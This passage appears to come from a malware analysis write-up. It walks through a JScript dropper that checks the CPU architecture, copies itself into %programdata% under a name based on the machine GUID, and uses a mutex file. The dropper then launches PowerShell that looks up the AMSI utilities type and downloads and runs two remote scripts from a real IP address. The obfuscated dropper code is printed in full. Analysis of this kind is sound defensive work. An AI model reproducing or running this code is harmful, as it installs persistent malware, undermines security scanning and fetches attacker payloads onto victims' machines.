 ```powershell
	v_10 := '{sysnative}\WindowsPowerShell\v1.0\powershell.exe';
	v_9 := EXPANDCONSTANT(v_10);
	v_3 := EXEC(v_9, v_8, v_7, v_6, v_5, {var}v_4);
	label_1166:
	exit;
end;

```

vqPM0l4stR.js performs the following actions:

* Creates an ActiveXObject shell object
* It uses WMI to validate the system architecture (32 bit/64 bit)
* Depending on the architecture, it sets the SysWOW64 (32 bit) or System32 (64 bit) folder to access PowerShell
* It reads the machine guid from the registry and creates a file named 'r' + MachineGUID + 'r'.js
* It checks if the current script is not called 'r' + MachineGUID + 'r'.js - if not, it copies itself to %programdata%
* It creates a mutex named "7zVBY5WWMUK1", and it checks if a file with that name exists in %temp%. It tries to delete the file, and if it does not exist, it downloads and executes two PowerShell scripts

```javascript
var f1 = "Scr", f2 = "ing.Fi", f3 = "stemOb" 
var fso = new ActiveXObject(f1 + "ipt" + f2 + "leSy" + f3 + "ject")
var w1 = "WSc", w2 = "riPt", w4 = "eLl" var wsh = w1 + w2 + ".sH" + w4 
var bbj = new ActiveXObject(wsh)
var fldr = GetObject("winmgmts:root\\cimv2:Win32_Processor='cpu0'").AddressWidth == 64 ? "SysWOW64" : "System32" 
var rd = bbj.ExpandEnvironmentStrings("%SYSTEMROOT%") + "\\" + fldr + "\\WindowsPowerShell\\v1.0\\powershell.exe" 
var agn = 'r' + bbj.RegRead('HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Cryptography\\MachineGuid') + 'r.js' 
if (WScript.ScriptName != agn) 
{
    var fs5 = "yFi" 
    try {
            fso["Cop" + fs5 + "le"](WScript.ScriptFullName, bbj.ExpandEnvironmentStrings("%programdata%") + "\\" + agn)
        } 
        catch (e) {}
}
var mtx_name = "7zVBY5WWMUK1" 
var mtx_file = bbj.ExpandEnvironmentStrings("%t" + "emp%") + "\\" + mtx_name 
var fs1 = "leteFi" 
var fs2 = "leExis" 
try {
    fso["De" + fs1 + "le"](mtx_file)
} 
catch (e) {}
if (!fso["Fi" + fs2 + "ts"](mtx_file)) {
    bbj.Run(rd + " -command \"$l1 = 'http://79.124.78[.]109/wp-includes/phyllopodan7V7GD.php'; $l2 = 'http://79.124.78[.]109/wp-includes/barasinghaby.ps1'; $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like '*siU*s') {$c=$b}}; $env:paths = '" + mtx_name + "'; IEX(Invoke-WebRequest -UseBasicParsing $l1); IEX(Invoke-WebRequest -UseBasicParsing $l2)\"", 0)
}
```
The first part of the PowerShell script retrieves AMSIUtils from the currenly loaded modules. It subsequently assigns that module to variable $c
